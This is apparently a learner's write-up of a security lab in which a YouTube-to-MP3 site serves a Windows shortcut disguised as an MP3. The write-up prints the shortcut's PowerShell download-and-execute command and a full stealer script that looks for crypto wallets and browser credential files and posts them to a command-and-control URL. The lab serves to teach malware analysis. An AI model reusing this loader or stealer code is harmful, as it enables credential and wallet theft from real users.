 On this day we learn about OPSEC (Operational Security). Operational security refers to the processes to prevent ourselves from malicious people who want to steal sensitive info from us. We are asked to investigate a yt to mp3 website. 
+ Firstly we are asked to use the site and download our files. We get two outputs. One named `song.mp3` the other `somg.mp3`. We examine what type of file both of these are:
  ```
  root@ip-10-10-189-48:~# file song.mp3
  song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
  ```
  ```
  root@ip-10-10-189-48:~# file somg.mp3
  somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
  ```
  We can see that `somg.mp3` is not an mp3 but a `.lnk` file.
  
+ We look at further info about `somg.mp3` by using `exiftool`.
  ```
  root@ip-10-10-189-48:~# exiftool somg.mp3
  ExifTool Version Number         : 11.88
  File Name                       : somg.mp3
  Directory                       : .
  File Size                       : 2.1 kB
  File Modification Date/Time     : 2024:10:30 14:32:52+00:00
  File Access Date/Time           : 2024:12:03 13:08:04+00:00
  File Inode Change Date/Time     : 2024:12:03 12:58:39+00:00
  File Permissions                : rw-r--r--
  File Type                       : LNK
  File Type Extension             : lnk
  MIME Type                       : application/octet-stream
  Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
  File Attributes                 : Archive
  Create Date                     : 2018:09:15 08:14:14+01:00
  Access Date                     : 2018:09:15 08:14:14+01:00
  Modify Date                     : 2018:09:15 08:14:14+01:00
  Target File Size                : 448000
  Icon Index                      : (none)
  Run Window                      : Normal
  Hot Key                         : (none)
  Target File DOS Name            : powershell.exe
  Drive Type                      : Fixed Disk
  Volume Label                    : 
  Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
  Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
  Machine ID                      : win-base-2019
  ```
  Here we can see in Command Line Arguments it has `-ep Bypass -nop -c` which I learned disables PowerShell's usual restrictions. `.DownloadFile` downloads a file from `https://raw.githubusercontent.com/MM-   WarevilleTHM/IS/refs/heads/main/IS.ps1` and saves it to `C:\ProgramData\s.ps1`. After it gets downloaded, the powershell script which is in the file that was downloaded gets executed using `iex`.

+ Looking at the powershell script by going to the website, we can see it extracts some very sensitive info like the user's crypto wallets. Which essentially means that once the user opens `somg.mp3` it downloads and runs the powershell script and steals the user's crypto wallets.

  ```
  function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
  }
  
  # Call the function to print the ASCII art
  Print-AsciiArt
  
  # Path for the info file
  $infoFilePath = "stolen_info.txt"
  
  # Function to search for wallet files
  function Search-ForWallets {
      $walletPaths = @(
          "$env:USERPROFILE\.bitcoin\wallet.dat",
          "$env:USERPROFILE\.ethereum\keystore\*",
          "$env:USERPROFILE\.monero\wallet",
          "$env:USERPROFILE\.dogecoin\wallet.dat"
      )
      Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
      foreach ($path in $walletPaths) {
          if (Test-Path $path) {
              Add-Content -Path $infoFilePath -Value "Found wallet: $path"
          }
      }
  }
  
  # Function to search for browser credential files (SQLite databases)
  function Search-ForBrowserCredentials {
      $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
      $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"
  
      Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
      if (Test-Path $chromePath) {
          Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
      }
      if (Test-Path $firefoxPath) {
          Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
      }
  }
  
  # Function to send the stolen info to a C2 server
  function Send-InfoToC2Server {
      $c2Url = "http://papash3ll.thm/data"
      $data = Get-Content -Path $infoFilePath -Raw
  
      # Using Invoke-WebRequest to send data to the C2 server
      Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
  }
  
  # Main execution flow
  Search-ForWallets
  Search-ForBrowserCredentials
  Send-InfoToC2Server
  ```
  We can see that the C2 server to which the code sends the stolen data to is `http://papash3ll.thm/data`.
+ Now we are asked to investigate further. We searched up the code on github, saw that a issue was raised by `M.M` i.e. `Mayor Malware` after that we look at the commit history of `CryptoWallet-Search` and thus we get all our answers.

### What I Learned
+ One must always be on the lookout for malicious sites. As once the damage is done there is no going back.
+ If we do use such sites for any reason, we must investigate the files that we downloaded.

  
